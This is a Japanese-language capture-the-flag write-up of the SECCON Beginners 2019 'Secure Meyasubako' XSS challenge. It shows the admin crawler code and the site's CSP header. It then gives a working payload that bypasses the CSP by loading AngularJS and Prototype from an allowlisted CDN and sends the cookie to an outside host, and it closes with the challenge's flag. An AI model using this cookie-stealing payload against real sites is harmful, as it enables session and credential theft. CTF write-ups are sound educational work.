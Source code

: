 # SECCON Beginners CTF 2019 "Secure Meyasubako" writeup

## problem

```
みなさまからのご意見をお待ちしています。

https://meyasubako.quals.beginners.seccon.jp

参考: https://score.beginners.seccon.jp/files/f379baacbdd51cd8305869a633377aa4_crawl.js
```

crawl.js

```javascript
const puppeteer = require('puppeteer');
const flag = process.env.FLAG;
const browser_option = {
    executablePath: 'google-chrome-stable',
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update',
    ],
};
const default_cookie = {
    "domain": current_host,
    "expirationDate": 1597288045,
    "hostOnly": false,
    "httpOnly": false,
    "name": "flag",
    "path": "/",
    "sameSite": "no_restriction",
    "secure": false,
    "session": false,
    "storeId": "0",
    "value": flag,
    "id": 1
}


/* ... */

const browser = await puppeteer.launch(browser_option);
const page = await browser.newPage();
await page.goto(current_host, {waitUntil: 'networkidle2'});
await page.setCookie(default_cookie);
await page.goto(url, {waitUntil: 'networkidle2'});
await page.waitFor(3000);
await browser.close();
```

## solution

タイトルと意見からなるテキストを管理者に送ることができる

そしてクローラーには cookie に flag が設置されているのでこれを XSS を使って取り出す

試しに img タグを仕込むとアクセスが飛んでくる

```html
<img src="http://example.com/?value=image" />
```

しかしインラインスクリプトは実行されない

```html
<script>
  alert("XSS");
</script>
```

header を見てみると以下のようになっている

```
Content-Security-Policy: script-src 'self' www.google.com www.gstatic.com stackpath.bootstrapcdn.com code.jquery.com cdnjs.cloudflare.com
X-XSS-Protection: 0
```

CSP が有効となっていて、自分のサーバーからと google や CDN からの js のみを許可している

XSS Auditor はオフになっている

Google が提供している [CSP Evaluator - Google](https://csp-evaluator.withgoogle.com/) でサイトをチェックしてみると

```
www.gstatic.com : www.gstatic.com is known to host Angular libraries which allow to bypass this CSP.
cdnjs.cloudflare.com : cdnjs.cloudflare.com is known to host Angular libraries which allow to bypass this CSP.
```

gstatic.com は Google が、cdnjs.cloudflare.com は cloudflare が提供している CDN サービス

これらの CDN から Angular を読み込めれば CSP をバイパスできると警告される

[H5SC Minichallenge 3 - GitHub](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22)

このサイトで紹介されている 191 バイトの解法を試す

まずAngularJS と Prototype を読み込み、Function.prototype.curry を使ってグローバルオブジェクトを置き換えることで任意の js を実行できる

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<div ng-app ng-csp>{{$on.curry.call().location.replace('http://example.com/?'+($on.curry.call().document.cookie))}}</div>
```

```
/?flag=ctf4b{MEOW_MEOW_MEOW_NO_MORE_WHITELIST_MEOW}
```

[バイパス可能な angular のリスト - GitHub](https://github.com/google/csp-evaluator/blob/master/whitelist_bypasses/angular.js#L26-L76)

## 参考 writeup

<https://st98.github.io/diary/posts/2019-05-26-beginners-ctf.html#secure-meyasubako-433>

<https://qiita.com/kusano_k/items/c1c7ebec353d0bfdf1eb#secure-meyasubako-17-solves-433-points>
